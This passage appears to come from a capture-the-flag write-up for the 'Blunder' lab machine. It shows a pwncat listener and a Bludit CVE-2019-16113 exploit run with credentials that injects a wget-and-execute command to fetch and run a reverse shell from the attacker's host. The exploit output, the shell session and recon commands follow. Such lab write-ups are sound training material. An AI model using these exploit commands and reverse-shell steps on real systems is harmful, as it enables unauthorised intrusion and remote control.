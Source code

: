 ```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
```

Upload & execute our reverse shell:

```
$ python 48568.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c 'wget http://10.10.14.82:8888/revshell.elf && chmod +x revshell.elf && ./revshell.elf'

ΓòöΓòù Γö¼  Γö¼ Γö¼ΓöîΓö¼ΓöÉΓö¼ΓöîΓö¼ΓöÉ  ΓòöΓòÉΓòùΓòª ΓòªΓòöΓòùΓòö
ΓòáΓò⌐ΓòùΓöé  Γöé Γöé ΓöéΓöéΓöé Γöé   ΓòáΓòÉΓò¥ΓòæΓòæΓòæΓòæΓòæΓòæ
ΓòÜΓòÉΓò¥Γö┤ΓöÇΓöÿΓööΓöÇΓöÿΓöÇΓö┤ΓöÿΓö┤ Γö┤   Γò⌐  ΓòÜΓò⌐Γò¥Γò¥ΓòÜΓò¥

 CVE-2019-16113 CyberVaca

[+] csrf_token: 1f60ba2db4a30cade52205468c95b5f33e408bc3
[+] cookie: 3a679ict7buj7aqkmff6e132f3
[+] csrf_token: 6c3f1bf1c0455dfabb3c539367629f6cb21298da
[+] Uploading ggllqvlr.jpg
[+] Executing command: wget http://10.10.14.82:8888/revshell.elf && chmod +x revshell.elf && ./revshell.elf
[+] Delete: .htaccess
[+] Delete: ggllqvlr.jpg
```

And we obtain a shell:

```
INFO: Client connected from 10.10.10.191:53416 (family 2/IPv4, TCP)

which python
/usr/bin/python

python -c 'import pty;pty.spawn("/bin/bash")'

www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ uname -a
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ cat /etc/os-release
NAME="Ubuntu"
VERSION="19.10 (Eoan Ermine)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 19.10"
VERSION_ID="19.10"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=eoan
UBUNTU_CODENAME=eoan

www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
